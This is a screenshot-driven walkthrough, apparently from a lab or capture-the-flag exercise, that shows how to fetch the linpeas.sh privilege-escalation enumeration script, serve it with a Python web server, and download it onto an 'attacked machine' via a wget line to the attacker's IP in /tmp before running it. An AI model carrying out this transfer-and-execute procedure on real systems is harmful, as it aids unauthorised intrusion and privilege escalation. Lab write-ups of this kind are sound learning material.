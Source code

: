 ![Screenshot 2025-02-22 at 20 23 44](https://github.com/user-attachments/assets/dafc62b4-f42f-4d46-88e2-69119f80ed93)

You will see github

![Screenshot 2025-02-22 at 20 24 49](https://github.com/user-attachments/assets/87d1168e-5159-4a04-959a-fb5e93b7391a)

This is going to search through to see if there are any paths of escalation for us, click on RAW for the code

![Screenshot 2025-02-22 at 20 25 41](https://github.com/user-attachments/assets/912ceda5-5c23-4a4e-81e2-aa94f83ba6e8)


![Screenshot 2025-02-22 at 20 26 28](https://github.com/user-attachments/assets/cf713133-97f1-4cc9-a50c-4ba16ab8ccdb)

Copy code.

![Screenshot 2025-02-22 at 20 27 23](https://github.com/user-attachments/assets/6d1006e6-90ce-4363-bf7d-59c9173be422)

This time i make a directory called transfers and copy the text into the directory.

![Screenshot 2025-02-22 at 20 28 36](https://github.com/user-attachments/assets/5a3ca793-6e14-4e3b-8dd1-63796aff5a43)

Then cd into the location and ls

![Screenshot 2025-02-22 at 20 29 16](https://github.com/user-attachments/assets/3ad2e1e3-76ae-439f-92b0-11af8e32c632)

So i need to host up a webserver using Python

![Screenshot 2025-02-22 at 20 30 04](https://github.com/user-attachments/assets/093fa83e-f94a-4da9-a99f-64f049c2510e)

I need to put the folder onto the attacked machine and the best place to put that would be the temp folder, so i cd into temp and check we are in temp with pwd.

![Screenshot 2025-02-22 at 20 31 11](https://github.com/user-attachments/assets/0fc57752-0882-42b3-a349-f7199db574de)

Type the following in the tmp folder.

wget http://my ip address/linpeas.sh and press enter. It should come through and start to install.

![Screenshot 2025-02-22 at 20 32 08](https://github.com/user-attachments/assets/32bdd103-750e-44fc-8f3e-22ff50655ed2)

ls into it

![Screenshot 2025-02-22 at 20 33 01](https://github.com/user-attachments/assets/273857e5-b572-4e46-99c5-e5282b257af9)

Then we need to make it executable.

Change mode.

![Screenshot 2025-02-22 at 20 33 49](https://github.com/user-attachments/assets/03185eff-72b4-45ee-9706-8b1ba5a42118)

![Screenshot 2025-02-22 at 20 34 24](https://github.com/user-attachments/assets/f41ef54f-0c9c-4598-8f2b-91a6f3334414)

now run it
